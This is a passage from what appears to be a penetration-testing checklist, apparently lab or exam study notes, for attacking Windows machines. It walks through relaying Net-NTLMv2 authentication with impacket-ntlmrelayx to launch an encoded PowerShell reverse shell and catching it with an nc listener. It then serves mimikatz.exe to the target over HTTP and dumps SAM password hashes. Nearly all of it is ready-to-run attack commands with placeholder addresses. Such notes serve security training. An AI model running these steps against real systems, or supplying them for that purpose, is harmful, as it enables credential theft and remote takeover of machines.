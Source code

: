 - [ ] Create an SMB connection to our Kali Machine
```cmd
\\192.168.xxx.xxx\test
```

- [ ] Crack the hashes on your Kali Machine or use for PtH

## Relaying Net-NTLMv2

- [ ] Start `impacket-ntlmrelayx` to relay the authentication part of an incoming SMB connection targeting the machine with a base64 encoded PowerShell reverse shell one-liner on our Kali Machine
```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.yyy.yyy -c "powershell -enc <encoded_reverse_shell_payload>"
```
-  `-t` to set the IP of Target Machine

- [ ] Start `nc` listener on our Kali Machine
```
nc -nvlp 8080
```

- [ ] Create a SMB connection from the Target Machine to our Kali Machine
```
dir \\192.168.xxx.xxx\test 
```

- [ ] Get reverse shell

# Post Privilege Escalation Looting
## WinPEAS

- [ ] Run `winPEAS.exe` again on the Target Machine
```powershell
.\winPEAS.exe
```
- Try to find passwords, command history, view files that non-admins cannot
## NTLM Hashes
### Mimikatz
#### Hashes
- [ ] Copy and serve `mimikatz.exe` on your Kali Machine
```
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80
```

- [ ] Use the iwr cmdlet to download `mimikatz.exe` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/mimikatz.exe -Outfile mimikatz.exe
```

- [ ] Dump NTLM hashes from SAM on the Target Machine
```
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```
```
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```
